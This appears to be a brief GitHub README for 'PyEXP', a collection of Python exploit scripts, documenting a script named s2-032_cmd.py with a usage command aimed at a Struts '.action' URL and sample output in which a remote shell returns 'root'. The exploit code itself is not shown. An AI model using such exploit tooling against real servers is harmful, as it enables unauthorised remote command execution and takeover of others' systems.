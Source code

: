 # PyEXP
The EXP coding by python,and I'll publish the popular EXP here.

s2-032_cmd.py
USG:
python s2-032_cmd.py http://x.y.z/*.action
#whoami
root
#\q
Bye!

